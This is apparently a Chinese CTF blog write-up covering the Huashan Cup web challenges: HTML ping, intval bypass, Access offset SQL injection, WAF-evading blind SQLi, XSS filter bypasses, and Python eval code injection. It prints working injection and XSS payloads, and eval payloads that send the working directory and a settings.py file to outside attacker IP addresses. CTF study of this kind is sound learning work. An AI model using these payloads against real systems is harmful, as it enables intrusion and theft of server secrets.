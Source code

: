 title: SPWC & 华山杯？ writeup
date: 2015-11-02 14:36:19
tags:
- Blogs
- ctf
categories:
- Blogs
---
最近没什么时间好好去打个ctf，这段时间抽空找了两个ctf比赛做了做web题目，也算是长了很多见识，这里还是留存下觉得有用的东西。

<!--more-->

# 华山杯 #

华山杯比赛的整体水平还挺不错，而且除了第二道脑洞以外脑洞都不打，学到了很多姿势

## web1 怎么在web上ping呢？ （html ping ddos) ##
最开始做这道题目的时候一直以为是php上面的黑魔法，研究了半天也没得到答案，后来看writeup的时候，发现了其实是html上的属性，[HTML PING](http://netsecurity.51cto.com/art/201508/487806.htm)

在前台中直接修改元素为
```
<a href="flag.php" ping="flag.php">
```
然后点击就会产生异步的post包，抓包就能看到flag了，由于这个属性及易造成ddos，所以firefox默认ban掉了这个属性，所以这里需要使用别的浏览器。

## web2 社工库查询 （intval 取整）##

题目真的有点儿脑洞大，首先翻翻发现存在一个robots.txt页面，里面提示到题目不是注入或者xss，也不需要扫目录，于是开始以为是从西瓜大神入手，社工了很久都没有想法，看到writeup才知道，提示里面的系统消息是指qq的10000号，在社工库中搜索10000就可以看到提示。
![](/img/hsb/1.png)

这里看到是intval，所以输入10000.1得到flag

## web3 access偏移注入
这题让我学到很多东西，首先是去搜了下access注入；
注入的步骤首先是判断是否存在注入点：
```
and 1=1
and 1=2
```
然后是判断表名字
```
 and exists (select * from 表名)
```
这里判断到是admin表
然后是判断是否存在字段
```
and exists (select 字段 from 表名）
```
我觉得正常能手跑出来的只有id，但是如果用sqlmap跑，还会有一些奇怪的，比如fname和realname（事实证明并没有什么用）
然后是判断字段数目
```
order by X(x为数字）
```
我这里判断结果为12.
接下来是union联合查询
```
http://218.245.4.113:8888/web03/ca55022fa7ae5c29d179041883fe1556/index.asp
?id=886 union select 1,2,3,4,5,6,7,8,9,10,11,12 from admin
```
这里回显是这样的
**5 Origin:7**
证明回显为是上面的5和7，但是跑了半天发现，无论注出什么数据，都和flag无关。

后面查到如果找不到需要的字段，可以使用access偏移注入，
给我启发的是这篇文章
[http://www.2cto.com/Article/201103/85452.html](http://www.2cto.com/Article/201103/85452.html)

最后的payload如下
```
http://218.245.4.113:8888/web03/ca55022fa7ae5c29d179041883fe1556/index.asp
?id=886 union select 1,2,3,4,* from (admin as a inner join admin as b on a.id=b.id)
```
得到密码hash，即是flag

## web4 有ｗａｆ该怎么注入呢　（sqli）
这里的题目没有认真做过，所以这里还是暂时贴上来几个payload:
```
id=1%20%26%26%20ord(substr((select%60flag%60from%60flag%60),1,1))=107
```
```
id=(select%a0ord(mid(flag,{},1))={}%a0from%a0flag)
```
写个python脚本泡泡就能得到答案了

## web5 xss?xss? (xss/oncut=outerhtml) ##
做题时候照例尝试了过滤，大概试了试发现
```
# $ '' * + 1 - . / ; : < > @ [ ] \      //大部分符号被过滤，但是这里&和%没过滤，于是编码可以绕过

```
还发现on被过滤，开始发现<>和on我直接懵了，后来发现只要大写就可以绕过，于是，这里用了一个很特殊的黑科技，[原文是这样的](http://drops.wooyun.org/papers/938)，这里直接用了一个简单的payload

```
YWxlcnQoMSkK"Oncut/setInterval%atob(value)),&quot   //前面的base64是alert(1)
```
这里用setinterval定时执行了value base64编码的值
还有一种是执行location.hash里，节省了长度
```
"Oncut=outerHTML=URL,%26quot#<iframe/onload=alert(1)></iframe>
```

## web6 python web ##

python 不精，还是贴上别人的writeup
![](/img/hsb/2.png)

登陆的时候看到报错

看到这个就想起了，任意代码执行，obj和method我们都可以控制
getattr(globals()[c[‘obj’]],c['method'])
然后在params这输入任意字符报错：	
ret = method(c[‘params'])
这三个我们都可以控制，那就是代码执行了，但是我们需要找到一个对象调用里面的方法，而python内置有一个__builtin__可以调用，这样我们调用eval方法就可以执行任意代码了
但是因为沙盒不能执行命令等危险操作。。。。。要得到数据可以通过urllib传到我们的服务器上
payload：
**{“obj":"__builtin__","method":"eval","params":"__import__('urllib').urlopen('http://128.199.225.225:8080'+__import__('os').getcwd())"}**
看到请求了:

![](/img/hsb/3.png)


沙盒不能用os.popen,os.system执行命令，那就先用os,listdir(‘./‘)列目录

![](/img/hsb/4.png)

最后用读取到settings.py里面的flag
payload:
**{"obj":"__builtin__","method":"eval","params":"__import__('urllib').urlopen('http://198.199.105.146:8080',open('./mysite/settings.py').read())"}**

![](/img/hsb/5.png)


# spwc #